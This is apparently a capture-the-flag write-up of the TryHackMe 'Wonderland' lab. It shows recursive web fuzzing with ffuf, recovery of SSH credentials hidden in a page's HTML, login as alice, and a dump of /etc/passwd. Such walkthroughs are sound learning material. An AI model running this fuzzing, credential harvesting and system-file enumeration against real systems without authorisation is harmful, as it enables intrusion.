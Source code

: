 Fuzzing this server is taking AGES because at a given point it blocks requests, and then come back after a period stuck.

```
cmd: ffuf -recursion -u http://10.10.244.192/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt

img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
[INFO] Adding a new job to the queue: http://10.10.244.192/img/FUZZ
poem                    [Status: 301, Size: 0, Words: 1, Lines: 1]
[INFO] Adding a new job to the queue: http://10.10.244.192/poem/FUZZ
r                       [Status: 301, Size: 0, Words: 1, Lines: 1]
[INFO] Adding a new job to the queue: http://10.10.244.192/r/FUZZ
[INFO] Starting queued job on target: http://10.10.244.192/img/FUZZ
[INFO] Starting queued job on target: http://10.10.244.192/poem/FUZZ
[INFO] Starting queued job on target: http://10.10.244.192/r/FUZZ
a                       [Status: 301, Size: 0, Words: 1, Lines: 1]
[INFO] Adding a new job to the queue: http://10.10.244.192/r/a/FUZZ
[INFO] Starting queued job on target: http://10.10.244.192/r/a/FUZZ
b                       [Status: 301, Size: 0, Words: 1, Lines: 1]
[INFO] Adding a new job to the queue: http://10.10.244.192/r/a/b/FUZZ
```

Well, we can already see where it is going: http://10.10.244.192/r/a/b/FUZZ -> /r/a/b/b/i/t <br>

The hint was right, we just found it in the wrong order :D <br>

Checking the page, there's a bit of text and an image. The image is one of those images found earlier (now is the png), with the following source code
```html
<body>
    <h1>Open the door and enter wonderland</h1>
    <p>"Oh, you’re sure to do that," said the Cat, "if you only walk long enough."</p>
    <p>Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"
    </p>
    <p>"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving
        the other paw, "lives a March Hare. Visit either you like: they’re both mad."</p>
    <p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
    <img src="/img/alice_door.png" style="height: 50rem;">
</body>
``` 

Welll, we can see those creds (```alice:HowDothTheLittleCrocodileImproveHisShiningTail```) and they work for SSH eheh :D 
```bash
# cmd: whoami && id
alice
uid=1001(alice) gid=1001(alice) groups=1001(alice)
```

This stupid machine is always freezing, fml... 5 minutes each time or so <br>

From /etc/passwd we can see the users available
```r
root:x:0:0:root:/root:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
```

